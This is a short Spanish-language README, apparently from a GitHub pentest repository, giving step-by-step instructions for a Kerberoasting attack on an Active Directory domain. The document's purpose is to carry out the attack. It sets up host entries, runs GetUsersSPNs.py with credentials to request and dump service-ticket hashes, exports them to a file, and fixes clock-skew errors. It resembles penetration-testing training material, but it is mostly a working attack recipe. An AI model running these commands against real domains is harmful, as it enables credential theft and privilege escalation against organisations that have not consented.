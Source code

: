 # Que es un ataque de Kerberoasting?
Kerberoasting es un ataque que se centra en obtener acceso a mas recursos mediante una escalada de privilegios, esto permite a los atacantes, hacerse pasar por usuarios del dominio sin privilegios con atributos `SPN` y solicitar tickets `TGS` relacionados con el servicio de la memoria en un intento de descifrar los hashes `NTLM`.

# Requisitos
Para evitar problemas debemos añadir al `/etc/hosts` lo siguiente, en el caso de este ataque con poner solo la ip y el nombre de dominio es suficiente.
```
<ip_DC> <nombre_dominio> <dominio> <nombre-DC>
```
Ejemplo:
```
192.168.214.149 wizcorp.local wizcorp DC-Company
```

# Efectuar ataque con GetUsersSPNs
Este ataque nos permite dumpear el hash de los usuarios que sean vulnerables.
```
python GetUsersSPNs.py <DOMINIO>/<usuario>:<contraseña> -dc-ip <ip_DC> -request
```
[Ver ejemplo](Images/users/README.md)

# Exportar hashes
En el caso de obtener un hash se pueden exportar directamente a un archivo con el parametro `-output <file>`

# Fix
Si el ataque te da el siguiente error: "Kerberos SessionERROR: KRB_AP_ERR_SKEW(Clock skew too great)" debes sincronizar la hora con el server de AD con el siguinte comando:
```
rdate -n <IP_DC>
```
